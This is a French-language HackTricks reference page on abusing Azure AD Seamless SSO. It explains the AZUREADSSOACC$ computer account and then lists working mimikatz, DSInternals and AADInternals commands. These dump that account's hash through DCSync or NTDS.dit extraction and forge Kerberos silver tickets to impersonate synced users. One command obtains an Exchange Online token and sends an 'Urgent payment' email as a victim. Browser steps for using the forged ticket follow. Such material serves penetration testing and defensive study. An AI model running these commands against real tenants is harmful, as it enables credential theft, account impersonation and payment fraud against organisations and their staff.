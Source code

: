 # Az - SSO Transparent

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

Azure Active Directory SSO Transparent (Azure AD SSO Transparent) **connecte automatiquement les utilisateurs lorsqu'ils sont sur leurs appareils d'entreprise** connectés à votre réseau d'entreprise. Lorsqu'il est activé, **les utilisateurs n'ont pas besoin de taper leur mot de passe pour se connecter à Azure AD**, et généralement, même pas leur nom d'utilisateur. Cette fonctionnalité offre à vos utilisateurs un accès facile à vos applications basées sur le cloud sans nécessiter de composants supplémentaires sur site.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

En gros, Azure AD SSO Transparent **connecte les utilisateurs** lorsqu'ils sont **sur un PC joint au domaine sur site**.

Il est pris en charge à la fois par [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) et [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Le SSO de bureau utilise **Kerberos** pour l'authentification. Lorsqu'il est configuré, Azure AD Connect crée un **compte d'ordinateur appelé AZUREADSSOACC`$`** dans AD sur site. Le mot de passe du compte `AZUREADSSOACC$` est **envoyé en texte clair à Azure AD** pendant la configuration.

Les **tickets Kerberos** sont **chiffrés** en utilisant le **NTHash (MD4)** du mot de passe et Azure AD utilise le mot de passe envoyé pour déchiffrer les tickets.

**Azure AD** expose un **point de terminaison** (https://autologon.microsoftazuread-sso.com) qui accepte les **tickets Kerberos**. Le navigateur de la machine jointe au domaine transfère les tickets à ce point de terminaison pour le SSO.

### On-prem -> cloud

Le **mot de passe** de l'utilisateur **`AZUREADSSOACC$` ne change jamais**. Par conséquent, un administrateur de domaine pourrait compromettre le **hash de ce compte**, puis l'utiliser pour **créer des silver tickets** pour se connecter à Azure avec **n'importe quel utilisateur sur site synchronisé** :
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Avec le hash, vous pouvez maintenant **générer des silver tickets** :
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Pour utiliser le ticket argenté :

1. Lancez _Mozilla Firefox_.
2. Allez dans **`about:config`** et réglez la préférence [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) à la [valeur](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. Naviguez vers n'importe quelle application web intégrée à notre domaine AAD. Nous utiliserons [Office 365](https://portal.office.com/), qui est la plus couramment utilisée.
4. Une fois sur l'écran de connexion, remplissez le nom d'utilisateur, en laissant le champ du mot de passe vide. Puis appuyez sur TAB ou ENTREE.

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Cela ne contourne pas MFA s'il est activé
{% endhint %}

#### ~~Création de tickets Kerberos pour les utilisateurs uniquement dans le cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Si les administrateurs Active Directory ont accès à Azure AD Connect, ils peuvent **définir le SID pour n'importe quel utilisateur du cloud**. Ainsi, des **tickets** Kerberos peuvent être **créés également pour les utilisateurs uniquement dans le cloud**. La seule condition est que le SID soit un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) approprié.

{% hint style="danger" %}
La modification du SID des utilisateurs admin uniquement dans le cloud est maintenant **bloquée par Microsoft**.\
Pour plus d'informations, consultez [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud via Délégation Contrainte Basée sur les Ressources <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Toute personne pouvant gérer les comptes d'ordinateurs (`AZUREADSSOACC$`) dans le conteneur ou l'OU où se trouve ce compte, peut **configurer une délégation contrainte basée sur les ressources sur le compte et y accéder**.

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
